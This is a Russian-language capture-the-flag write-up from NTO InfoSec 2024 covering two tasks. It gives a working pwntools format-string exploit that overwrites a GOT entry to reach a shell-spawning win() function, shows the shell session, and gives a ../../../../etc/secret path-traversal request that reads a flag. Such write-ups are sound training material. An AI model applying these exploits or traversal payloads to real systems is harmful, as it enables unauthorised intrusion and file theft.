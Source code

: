 # NTO-InfoSec-2024-writeups
# Команда "two_raccoons_enough"
____
# Task based
## PWN
### 10 баллов
Залив исходники в дизассемблер, мы можем заметить функцию `win()`, которая возвращает  `/bin/sh`, способный дать нам контроль над машиной. В функции `main()` содержится memory unsafe `printf(format: &var_418)`, уязвимая к f-strings. 
```shell
┌──(kali㉿KaliOlymp)-[~/Downloads]
└─$ nc 192.168.12.13 1923        
%x %x %x %x
78252078 fbad2088 15a62ac 0
```
Проверив эту гипотезу, мы приступили к редактированию кода, который использовался в райтапах на подобную задачу, [найденного на CTFTime](https://ctftime.org/writeup/33272).
```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Этот код не работал и не совсем подходил для нашего таска, поэтому пришлось его отредактировать
```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF("/home/kali/Desktop/main")
r = ROP(e)

gs = '''
continue
'''

def start():
    return remote('192.168.12.13', 1923)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Эксплоит успешно передал управление функции `win()`, которая дала нам полный доступ к уязвимой машине
```shell
┌──(kali㉿KaliOlymp)-[~/Desktop]
└─$ python exploit.py -h ./main
[*] '/home/kali/Desktop/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 4 cached gadgets for '/home/kali/Desktop/main'
[+] Opening connection to 192.168.12.13 on port 1923: Done
[*] Switching to interactive mode
```
```shell
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
main
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
nto{easy_formt_string}
$  
```
Мы получили флаг: **nto{easy_formt_string}**
## Web 
### 10 баллов
На сайте мы сразу же видим число 20, на которое можно нажать. Нажав мы видим `Hint_1 maybe in etc/secret ???`.
Это явный намёк на LFI. Просто меняем путь в строке на http://192.168.12.10:5001/download?file_type=../../../../etc/secret и получаем флаг:
**nto{P6t9_T77v6RsA1}**
